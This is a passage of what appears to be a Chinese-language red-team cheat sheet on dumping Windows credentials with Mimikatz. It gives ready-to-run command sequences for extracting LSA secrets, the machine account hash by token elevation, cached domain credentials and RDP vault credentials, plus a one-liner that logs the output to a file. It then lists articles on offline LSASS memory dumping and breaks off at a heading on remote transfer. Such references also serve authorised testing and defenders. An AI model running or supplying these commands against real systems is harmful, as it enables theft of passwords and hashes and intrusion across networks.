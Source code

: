 **parameter -patch**
```
privilege::debug
lsadump::lsa /patch
```

**Token Elevation**

获得 MachineAccount 口令 hash
```
privilege::debug
token::elevate
lsadump::secrets
```

输出
```bash
mimikatz.exe ""privilege::debug"" ""token::elevate"" ""lsadump::secrets"" exit >> log.txt
```

**MSCACHE**
```
privilege::debug
lsadump::cache
```

**rdp**
```
privilege::debug
vault::cred /patch
```

---

## 离线抓取 (lsass dump)

**相关文章**
- [Win10及2012系统以后的明文抓取方式](https://www.anquanke.com/post/id/175364)
- [Mimikatz明文密码抓取](https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html)
- [mimikatz-抓取windows明文密码](http://rtshield.top/2019/09/02/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-%E6%8A%93%E5%8F%96windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81/)
- [利用Mimikatz提取虚拟机内存中的密码](https://www.freebuf.com/articles/system/44620.html)
- [LSASS Memory Dumps are Stealthier than Ever Before](https://www.deepinstinct.com/2021/01/24/lsass-memory-dumps-are-stealthier-than-ever-before/)
- [Lsass Memory Dumps are Stealthier than Ever Before - Part 2](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
- [渗透技巧——使用Mimilib从dump文件中导出口令](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BD%BF%E7%94%A8Mimilib%E4%BB%8Edump%E6%96%87%E4%BB%B6%E4%B8%AD%E5%AF%BC%E5%87%BA%E5%8F%A3%E4%BB%A4/)
- [Mimikatz Against Virtual Machine Memory Part 1 Carnal0wnage](https://blog.carnal0wnage.com/2014/05/mimikatz-against-virtual-machine-memory.html)
- [Mimikatz Against Virtual Machine Memory Part 2 Carnal0wnage](https://blog.carnal0wnage.com/2014/06/mimikatz-against-virtual-machine-memory.html)

**远程传输**
